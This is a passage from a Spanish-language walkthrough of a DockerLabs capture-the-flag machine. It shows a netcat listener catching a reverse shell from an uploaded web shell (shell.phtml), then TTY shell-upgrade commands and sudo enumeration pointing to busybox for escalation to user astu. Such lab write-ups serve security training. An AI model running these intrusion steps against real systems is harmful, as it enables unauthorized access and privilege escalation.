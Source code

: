 Pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si ingresaremos en la siguiente ruta de `URL`:

```
URL = http://crosswords.5eek3r.dl/shell.phtml
```

Y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 50190
whoami
www-data
```

Vemos que somos el usuario `www-data` por lo que sanitizaremos la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user astu

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox
```

Vemos que podemos ejecutar el binario `busybox` como el usuario `astu`, por lo que haremos lo siguiente:
